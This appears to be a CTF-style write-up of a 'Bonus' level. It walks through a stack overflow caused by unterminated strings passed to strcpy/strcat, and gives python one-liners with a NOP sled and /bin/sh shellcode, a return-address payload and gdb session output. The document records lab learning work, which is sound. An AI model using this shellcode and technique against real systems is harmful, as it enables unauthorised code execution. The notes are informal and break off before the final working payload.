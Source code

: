 Bonus time ! 

Ok so we have a function main, a p function and a pp function.

In terms of vulnerable functions we have a strcpy and strcat

There is no system calls so we'll bring our shellcode

First let's bring our pattern generator, and after two reads we get a crash with offset of 9, so we can take the whell and go whereever we want

That being said, a 10 long code does not crash

The pp call contains two p calls, each reading an input, replacing the \n ending the string with a \0a and copying the first 20 bytes into a 20 long buffer. So far all good.

But then there a strcpy call that copies the first of these two 20 bytes long buffer into our main buffer, 54 long.
Then repalce the \0 by a space and strcat the second buffer into our first.

Our exploit will lie in the fact that the strchr in p expects to find a \n to turn into a \0 to terminate the string and make sure the subsequent strcpy, strchr and strcat work properly.

But if there is no \n everyting goes bad.

At this point, the first 20 buffer will be filled with a non terminated string and the second one with whatever.

Calling strcpy on this will then take the first and second buffer since it won't know the first ending point, this is our entrypoint, we will be able to change the return address this way

We will attempt to store our shellcode into the big buffer on the first read, and on the second read we'll point towards it


First arg with a bunch of filler and the shellcode
python -c 'print ("\x90" * 1000 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")' > /tmp/1

Second arg with enough filler to overflow and the address of our buffer

Big buffer is at 0xbfffe680

We know the offset is at 9 so :
AAAAAAAAABBBB 
but it does not crash, weird

```gdb
abcdefghijklmnopqrstuvwxyz
AAAAAAAAABBBBAAAAAAAabcdefghijklmnopqrst��� abcdefghijklmnopqrst���

Program received signal SIGSEGV, Segmentation fault.
0x6d6c6b6a in ?? ()
```

Ok so it appears it needs stuff afterwards, no problem


abcdefghi jklm nopqrstuvwxyz

Our address must be put in this range

0xbf ff e6 80
python -c 'print("A" * 9 + "\x80\xe6\xff\xbf" + "B" * 13)'

the gdb command will be :

r < <(cat /tmp/1 ; sleep 1; cat /tmp/2)
crashes us in 0xbfffe69a, we must go further to avoid the second read messing up our first


python -c 'print("A" * 9 + "\xff\xe6\xff\xbf" + "B" * 13)' > /tmp/2
r < <(cat /tmp/1 ; sleep 1; cat /tmp/2 -)
To see where we can crash with the second string
abcdefghi jklm nopqrstuv
